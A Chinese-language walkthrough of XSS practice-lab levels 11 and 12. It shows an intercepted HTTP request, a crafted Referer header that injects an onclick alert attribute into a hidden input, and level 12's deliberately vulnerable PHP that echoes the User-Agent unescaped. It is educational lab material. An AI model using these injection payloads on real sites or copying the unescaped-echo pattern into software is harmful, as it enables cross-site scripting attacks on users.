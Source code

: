 可以发现, 能操作的部分就是 

变量 `$_SERVER['HTTP_REFERER']`  

用于获取HTTP请求来源的URL地址。具体来说，它将返回一个字符串，该字符串标识了用户从哪个页面链接到当前页面。

于是要操作的话,就需要通过抓包的行为

去修改字段 `HTTP_REFERER`

开启代理后,抓包

```php
GET /yx/level11.php HTTP/2
Host: xssaq.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/114.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
```

然后我们需要添加报文 构造 `Referer`

```php
Referer: " onclick="window.alert()" type="text"
```

于是

![Untitled](xss-lab%2032cbdf3646914878b34975977f2cc833/Untitled%203.png)

```php
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="" type="hidden">
<input name="t_ref"  value="" onclick="window.alert()" type="text"" type="hidden">
```

# level12

```php
<?php 
ini_set("display_errors", 0);
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
</form>
</center>';
?>
```

